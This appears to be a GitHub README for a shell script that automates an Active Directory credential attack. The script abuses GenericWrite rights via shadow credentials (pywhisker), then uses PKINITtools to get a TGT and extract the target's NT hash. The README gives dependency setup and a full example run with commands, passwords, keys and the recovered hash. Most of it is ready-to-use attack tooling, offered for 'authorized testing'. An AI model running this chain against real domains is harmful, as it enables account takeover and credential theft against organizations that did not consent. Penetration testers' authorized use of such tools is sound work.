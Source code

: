 ## Dependancies
1. Requires pywhisker to be installed with pipx `pipx install git+https://github.com/ShutdownRepo/pywhisker.git`
2. Requires gettgtpkinit.py and getnthash.py from https://github.com/dirkjanm/PKINITtools/tree/master. I recommend cloning the repo and setting the tools as static variable in the script. I set mine like this.
```
# Full paths to gettgtpkinit.py and getnthash.py
GETTGT_PY="/home/kali/Transfers/PKINITtools/gettgtpkinit.py"
GETNTHASH_PY="/home/kali/Transfers/PKINITtools/getnthash.py"
```
3.Requires the necessary modules needed to run gettgtpkinit.py and getnthash.py. These are typically already satisfied in the latest release of Kali Linux. For other operating systems, please consult requirements.txt on the PKINITtools repo.

## Usage
This script combines pywhisker,  gettgtpkinit.py and getnthash.py to exploit GenericWrite Active Directory privilege set over a Domain User or Computer Object(machine account), requires ADCS to be properly configured on the domain controller.
Pywhisker is used to obtain a certificate for the targeted user, gettgtpkinit.py is used to obtain a TGT using the previously obtained certificate and finally getnthash.py is used to extract the NT hash from the TGT.

## Example
```
$ ./GenericWrite_ADCS.sh contoso.local p.thompson 'Password123!' j.kelly 10.129.86.37
[*] Starting attack for: j.kelly@contoso.local
[*] Requesting certificate with pywhisker...
    pywhisker -d "contoso.local" -u "p.thompson" -p "Password123!" --target "j.kelly" --action 'add' --dc-ip "10.129.86.37" > pywhisker_output.txt
[+] PFX file: 6IeF2D54.pfx
[+] PFX password: HWZMazba3gNZljp86FVN
[*] Requesting TGT with the certificate 6IeF2D54.pfx...
    python3 "/home/kali/Transfers/PKINITtools/gettgtpkinit.py" -dc-ip "10.129.86.37" -cert-pfx "6IeF2D54.pfx" -pfx-pass "HWZMazba3gNZljp86FVN" "contoso.local/j.kelly" ccache_j.kelly > gettgt_output.txt 2>&1
[+] AES key: aa93036d089ebfb981a756c009c4440174c2f2d16e20d86973d9a81ac5de1d7d
[*] Extracting NT hash from the ticket using the AES key...
    python3 "/home/kali/Transfers/PKINITtools/getnthash.py" "contoso.local/j.kelly" -key "aa93036d089ebfb981a756c009c4440174c2f2d16e20d86973d9a81ac5de1d7d" -dc-ip "10.129.86.37"
[*] Recovered NT Hash: 22151d74ba3de9317892cba1f9393a37
```

## Disclaimer
This script is an automation wrapper for existing tools and is intended for educational and authorized testing purposes only. **Full credit goes to the original authors of these tools**. The author of this script is not responsible for any misuse or unauthorized application of this script.

